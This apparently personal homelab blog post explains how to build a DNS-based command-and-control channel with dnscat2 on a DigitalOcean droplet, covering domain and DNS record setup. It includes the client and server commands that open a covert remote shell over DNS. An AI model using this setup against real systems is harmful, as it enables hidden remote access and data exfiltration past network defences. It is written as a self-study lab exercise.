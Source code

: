 ```yaml
---
title: C2 over DNS
categories: [Homelab]
tags: [homelab, dns] # TAG names should always be lowercase
img_path: /assets/img/homelab
---
```

[main](/posts/homelab_intro)

# Command and Control server over DNS
Sources:
[TryHackMe | DNS in detail](https://tryhackme.com/room/dnsindetail),
[TryHackMe | DNS Manipulation](https://tryhackme.com/room/dnsmanipulation),
[TryHackMe | Data Exfiltration](https://tryhackme.com/room/dataxexfilt).
(These sources explain ways to exfiltrate data over DNS using python and iodine)

Setup your own authoritative DNS server using AWS: [STOK's video](https://www.youtube.com/watch?v=p8wbebEgtDk) 
	
You can use `iodine`, `dnscat2`, and `cobalt strike` for c2 over DNS. I am using dnscat2 on a digitaloceans droplet.

## DNS server setup using digitaloceans
1. Spin up a droplet (2GB memory) - You'll get a public ip address
2. Connect to the server. On Windows, you can use the Terminal app with WSL(Ubuntu or Kali). You can SSH into the server and continue with the following steps.
3. You'll get a root user access. Create a new user on the server.
4. Take a snapshot of the droplet.
5. Set up the firewall rules for the droplet. All traffic in and out shall be blocked by default. So, you have to manually enable them for your droplet. Manage > Networking > Firewalls

### Firewall rules:
![Inbound rules](inbound_do_rules.png)
![Outbound rules](outbound_do_rules.png)

## Get a Domain Name
- I went with hostgator. You can find cheap(<$1) domain names like the `.site` TLD.
- Other popular options include namecheap and godaddy.
- You can get a free subdomain from EU.org. You can donate to `nic.eu.org` later if you can't afford a domain name now.
- "The main goal of EU.org is to provide free subdomain registration to users or non-profit organizations who cannot afford the fees demanded by some NICs" - [nic.eu.org](https://nic.eu.org/)
- The only drawback is that it would take about a month for approval. (When asked for nameservers, just point it to the digitalocean nameservers after you setup the domain management)

## Domain management using digitaloceans
[DNS Propagation Checker - Global DNS Testing Tool (whatsmydns.net)](https://www.whatsmydns.net/)
- Configure the nameservers to digitalocean nameservers at your domain provider account.
- Add a domain to your droplet

> While making records, make sure that you keep the ttl low till things work (Initially, I chose one-tenth value. Now they are back to defaults).
{: .prompt-info}

More info: [How to choose DNS TTL values - APNIC Blog](https://blog.apnic.net/2019/09/27/how-to-choose-dns-ttl-values/)

Set the Records as follows:

![DNS records](dns_records_do.png)

## dnscat2 setup
> Take the server snapshot before you proceed
```bash
# on client
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client/
sudo apt install gcc make
sudo make
# Also, you can wget from the c2 server
# You can use the following command for a directory:
	# wget --no-parent -r http://example.com/DIRECTORY
```

> Installation on the server - as a regular user (not as a root):
{: .prompt-warning}

```bash
# install ruby (or "ruby-dev" if you get an error: `require` - loaderror) and gem
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
sudo gem install bundler
sudo chown -R example_user /var/lib/gems
sudo apt install ruby-dev make gcc
bundle install
sudo ruby ./dnscat2.rb example.com # your domain name
dnscat2> 
	start --dns port=53531,domain=example.com # you'll get the secret value

# on client
sudo ./dnscat --dns port=53531,server=example.com --secret=<secret_value>
# use the ip address instead of example.com if your domain name is not resolving 

# on server
dnscat2>
	windows
	window -i 1 # session number of the connection
	help # get shell
	shell
	# ctr+z to escape
	windows # list
	window -i 2 # go to the sh window
	
# you can run multiple servers on multiple ports using dnscat2. The client can send different packets to different ports
```
learn more from [dnscat2](https://github.com/iagox86/dnscat2.git)

Network traffic:
![dns](dnscat2_traffic_blur.png)
